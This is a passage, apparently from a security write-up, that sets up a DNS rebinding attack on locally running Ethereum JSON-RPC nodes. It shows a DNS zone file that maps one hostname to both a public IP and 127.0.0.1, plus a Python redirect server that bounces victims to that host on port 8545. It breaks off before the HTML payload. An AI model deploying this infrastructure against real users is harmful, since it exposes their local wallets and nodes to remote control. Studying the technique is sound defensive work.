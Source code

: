 ```
; Name servers
rhodey.org.    IN    NS    ns1.rhodey.org.
rhodey.org.    IN    NS    ns2.rhodey.org.

; Name server A records
ns1    IN    A    173.255.255.43
ns2    IN    A    173.255.255.43

; Other A records
@    IN    A    173.255.255.43
eth  IN    A    173.255.255.43
eth  IN    A    127.0.0.1
```

## Pretty Lil' Redirect
The Ethereum JSON API listens on port `8545` which means to satisfy Same-origin Policy we'll need to serve all our JavaScript from `8545` as well, but `http://eth.rhodey.org:8545` looks hella shady so we use a *HTTP 307 Redirect* to bounce `http://rhodey.org` to `http://eth.rhodey.org:8545`.

```python
import BaseHTTPServer
import time

OUR_HOST  = "rhodey.org"
OUR_PORT  = 80
NEXT_HOST = "eth.rhodey.org"
NEXT_PORT = "8545"
REDIRECT  = "http://" + NEXT_HOST + ":" + NEXT_PORT

class RedirectHandler(BaseHTTPServer.BaseHTTPRequestHandler):
  def do_HEAD(s):
    s.send_response(307)
    s.send_header("Location", REDIRECT)
    s.end_headers()
  def do_GET(s):
    s.do_HEAD()

if __name__ == '__main__':
  server_class = BaseHTTPServer.HTTPServer
  httpd        = server_class((OUR_HOST, OUR_PORT), RedirectHandler)
  print time.asctime(), "Server Starts - %s:%s" % (OUR_HOST, OUR_PORT)
  try:
    httpd.serve_forever()
  except KeyboardInterrupt:
    pass
  httpd.server_close()
  print time.asctime(), "Server Stops - %s:%s" % (OUR_HOST, OUR_PORT)
```

## The HTML
After redirecting the victim to our malicious domain we serve some very basic HTML.
